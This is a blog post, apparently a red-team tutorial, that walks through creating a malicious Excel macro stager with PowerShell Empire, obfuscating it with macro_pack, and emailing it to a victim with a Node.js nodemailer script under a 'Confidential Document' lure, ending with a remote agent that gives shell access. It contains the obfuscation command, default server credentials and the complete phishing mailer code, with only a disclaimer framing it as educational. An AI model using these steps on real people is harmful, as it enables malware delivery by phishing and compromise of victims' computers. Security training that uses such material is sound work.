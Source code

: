 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
categories: [malware, phishing, nodejs, gmail, starkiller, macros]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![1](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![[2.png]]

- Create Stager 

```
windows/macro
```

![[3.png]]

- Copy the Macro 

![[4.png]]

- Start C# Empire Server

![[5.png]]

## Windows

- paste the macro stager to the windows vm
- macro.vba

![[6.png]]

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![[7.png]]

- the new obfuscated vba

![[8.png]]

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![[9.png]]

![[10.png]]

![[11.png]]

- Replace the empty function with the obs_macro's contents

![[12.png]]

- Save it as xlsm

![[13.png]]


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![[14.png]]

## Victims Emails

![[15.png]]

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![[16.png]]

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![[17.png]]

- Enable Content

![[18.png]]

- Run Macro

![[19.png]]

## Agent Created (Kali)

![[20.png]]

- File Browser

![[21.png]]

- Interact /  Shell Command

![[22.png]]

## Virus Total

![[23.png]]

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***





